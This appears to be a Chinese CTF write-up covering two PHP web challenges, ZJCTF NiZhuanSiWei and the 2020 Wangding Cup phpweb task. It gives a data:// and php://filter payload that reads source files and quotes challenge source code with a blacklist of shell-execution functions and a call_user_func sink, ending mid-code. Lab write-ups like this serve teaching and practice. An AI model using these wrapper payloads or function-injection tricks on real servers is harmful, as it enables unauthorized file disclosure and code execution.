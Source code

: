 ## 121.[ZJCTF 2019]NiZhuanSiWei

![image-20241126230211425](D:\ctf wp\121-160.assets\image-20241126230211425.png)

先绕过前两个 构造payload

?text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php

![image-20241126231432530](D:\ctf wp\121-160.assets\image-20241126231432530.png)

解码后![image-20241126231528686](D:\ctf wp\121-160.assets\image-20241126231528686.png)

根据源代码 file赋值为flag.php![image-20241126232113851](D:\ctf wp\121-160.assets\image-20241126232113851.png)

然后file去掉协议 与include函数匹配![image-20241126232252045](D:\ctf wp\121-160.assets\image-20241126232252045.png)



## 122.[网鼎杯 2020 朱雀组]phpweb

![image-20241126235235900](D:\ctf wp\121-160.assets\image-20241126235235900.png)

网页没过一段时间会刷新 那就抓包 等刷新后拿到信息![image-20241126235500618](D:\ctf wp\121-160.assets\image-20241126235500618.png)

随便改一下数据 报错中有信息![image-20241126235954602](D:\ctf wp\121-160.assets\image-20241126235954602.png)

学习此函数![image-20241127000115444](D:\ctf wp\121-160.assets\image-20241127000115444.png)

学习此函数的漏洞利用后 尝试利用assert等都显示hack 即被过滤 最后file_get_contents能用![image-20241127000751144](D:\ctf wp\121-160.assets\image-20241127000751144.png)

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

if ($func != null) {
    $func = strtolower($func);
    if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
    }else {
```